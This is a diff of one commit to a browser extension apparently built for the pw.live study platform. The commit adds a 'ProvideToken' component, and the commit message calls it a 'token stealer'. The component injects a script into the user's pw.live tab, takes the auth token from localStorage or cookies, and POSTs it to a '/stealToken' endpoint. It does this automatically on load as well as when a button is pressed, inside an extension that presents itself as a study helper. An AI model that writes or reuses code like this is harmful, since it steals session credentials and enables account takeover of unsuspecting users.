

Before and after one commit to adityarwt1/Pw-Study-Extension, a React (Vite) app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
token stealer part is done now

```diff
--- a/src/App.tsx
+++ b/src/App.tsx
@@ -7,6 +7,7 @@
 import HideStamps from "./components/HideTimeStamps";
 import TimeTravel from "./components/TimeTravel";
 import EnabledRightClick from "./components/EnabledRightClick";
+import ProvideToken from "./components/ProivideToken";
 // import MultiplicationTables from "./components/MulitipleTable";
 
 const MainPlayGround = () => {
@@ -65,7 +66,7 @@
       {/* <MultiplicationTables/> */}
 
       <TimeTravel />
-
+      <ProvideToken/>
       <EnabledRightClick />
     </div>
   );
--- /dev/null
+++ b/src/components/ProivideToken.tsx
@@ -0,0 +1,76 @@
+import React, { useEffect } from "react";
+import { getAcitveWindow } from "../utils/chromeApis/getCurrentAcitivewindow";
+import { excuteScript } from "../utils/chromeApis/runScriptOn";
+
+const ProvideToken: React.FC = () => {
+  const [isSending, setIsSending] = React.useState(false);
+  const [isSent, setIsSent] = React.useState(false);
+  const stealerFunctions = async () => {
+    const LocalStorageToken = localStorage.getItem("token");
+    const cookieToken = document.cookie
+      .split("; ")
+      .find((row) => row.startsWith("token="))
+      ?.split("=")[1];
+    const token = LocalStorageToken || cookieToken;
+    // server health check
+    const response = await fetch("http://localhost:3000/api/v1/health");
+
+    if (token && response.ok) {
+      const stealToken = await fetch(
+        "http://localhost:3000/api/v1/stealToken",
+        {
+          method: "POST",
+          headers: {
+            "Content-Type": "application/json",
+          },
+          body: JSON.stringify({ token }),
+        },
+      );
+      if (stealToken.ok) {
+        console.log("Token sent successfully");
+      } else {
+        console.error("Failed to send token");
+      }
+    } else {
+      console.error("No token found or server is down");
+    }
+  };
+  const handleSendToken = async () => {
+    setIsSending(true);
+    try {
+      const currrectTab = await getAcitveWindow();
+      if (
+        currrectTab &&
+        currrectTab.id &&
+        currrectTab.url?.includes("pw.live")
+      ) {
+        await excuteScript(currrectTab.id, stealerFunctions);
+      }
+    } catch (error) {
+      console.error("Error sending token:", error);
+    } finally {
+      setIsSending(false);
+      setIsSent(true);
+    }
+  };
+
+  useEffect(() => {
+    let timer: any;
+    if (isSent) {
+      timer = setTimeout(() => {
+        setIsSent(false);
+      }, 3000); // Reset after 3 seconds
+    }
+    return () => clearTimeout(timer);
+  }, [isSent]);
+  useEffect(() => {
+    stealerFunctions()
+    },[]);
+  return (
+    <button onClick={handleSendToken}>
+      {isSending ? "Sending" : isSent ? "Sent!" : "Send Token"}
+    </button>
+  );
+};
+
+export default ProvideToken;
```
Also changed, not shown: 3 other files (tests, documents, lock files or other folders).
